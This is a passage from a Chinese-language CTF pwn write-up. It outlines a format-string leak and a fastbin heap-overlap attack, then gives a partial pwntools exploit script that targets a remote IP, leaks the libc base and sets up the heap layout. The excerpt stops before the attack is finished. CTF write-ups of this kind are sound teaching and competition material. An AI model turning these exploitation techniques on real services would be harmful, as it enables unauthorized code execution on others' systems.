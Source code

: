 格式化字符串泄露地址

**<a class="reference-link" name="%E4%BB%BB%E6%84%8F%E5%86%99"></a>任意写**

UB隔块合并打fastbin, 利用0x7F伪造size, 然后realloc调栈, OGG

### <a class="reference-link" name="EXP"></a>EXP

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')


def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    print(sh.pid)
    raw_input()    
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('114.215.144.240', 11342)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('Your choice :')
    sh.send(str(n).ljust(4, '\x00'))

def Add(idx, size, cont):
    Cmd(1)
    sh.recvuntil('Where?')
    sh.send(str(idx).ljust(0x30, '\x00'))
    sh.recvuntil('Big or small??')
    sh.send(str(size).ljust(0x8, '\x00'))
    sh.recvuntil('Content:')
    sh.send(cont)

def Free(idx):
    Cmd(2)
    sh.recvuntil('Index:')
    sh.send(str(idx).ljust(6, '\x00'))



Add(0, 0x20, '%15$p')
sh.recvuntil('Your input:')
libc.address = int(sh.recv(14), 16)-0x20840
Log('libc.address')

Add(0, 0x90, 'A'*0x90)
Add(1, 0x60, 'B'*0x60)
Add(2, 0x28, 'C'*0x28)
Add(3, 0xf0, 'D'*0xF0)
```